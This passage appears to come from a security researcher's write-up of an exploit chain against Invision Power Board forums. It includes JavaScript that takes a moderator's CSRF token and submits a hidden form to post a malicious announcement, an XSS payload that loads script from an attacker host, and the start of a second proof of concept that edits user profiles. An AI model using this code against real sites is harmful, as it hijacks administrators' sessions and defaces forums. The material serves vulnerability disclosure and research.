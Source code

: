 ```javascript
}
if(mm<10){
    mm='0'+mm;
}
var today = mm+'/'+dd+'/'+yyyy;

// build form with valid token and evil credentials
document.body.innerHTML
  += '<form id="C0RB3N" action="' + target + '" method="POST">'
	+ '<input type="hidden" name="_submitted" value="1">'
  + '<input type="hidden" name="csrfKey" value="' + token + '">'
	+ '<input type="hidden" name="MAX_FILE_SIZE" value="2097152">'
	+ '<input type="hidden" name="plupload" value="C0RB3N">'
	+ '<input type="hidden" name="announce_title" value="' + title + '">'
	+ '<input type="hidden" name="announce_start" value="' + today +'">'
	+ '<input type="hidden" name="announce_end_unlimited" value="0">'
	+ '<input type="hidden" name="announce_content" value="'+ payload +'">'
	+ '<input type="hidden" name="announce_content_upload" value="C0RB3N">'
	+ '<input type="hidden" name="announce_app_unlimited" value="*">'
	+ '<input type="hidden" name="announce_calendars">'
	+ '<input type="hidden" name="announce_calendars-zeroVal" value="on">'
	+ '<input type="hidden" name="announce_download_categories">'
	+ '<input type="hidden" name="announce_download_categories-zeroVal" value="on">'
	+ '<input type="hidden" name="announce_forums">'
	+ '<input type="hidden" name="announce_forums-zeroVal" value="on">'
  + '</form>';

// submits our csrf form!
document.forms["C0RB3N"].submit();

function get(url) {
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", url, false);
    xmlHttp.send(null);
    return xmlHttp.responseText;
}

```

It requires a moderator or admin to visit (not too hard to do). Once they visit it, it creates an announcement abusing the first bug I found, thus chaining this reflected XSS with the stored one. It does this by stealing the moderator's / admin's CSRF token, builds a CSRF form with that token & with the HTML we want to be in the announcement, and then submits the form, creating our malicious announcement :) <br><br>
Payload: `controller='};</script><script src=//<attacker>/xss.js></script>;{' `

The second script I coded was: https://blog.lynxsecurity.io/pocs/lol.js
```javascript
/*
blog.lynxsecurity.io/pocs/lol.js 
(_)_ ____      ___ __
| | '_ \ \ /\ / / '_ \
| | |_) \ V  V /| | | |
|_| .__/ \_/\_/ |_| |_|
 |_|  IPB Exploit
      by @hacker_

index.php?/profile/<user>/&tab=field_core_pfield_1
This will add "C0RB3N is my hero" to the user's about me.
*/
var target = 'http://localhost/ips_4141/index.php';
var payload = 'corben is my hero';

// Gets the Profile URL of the victim.
```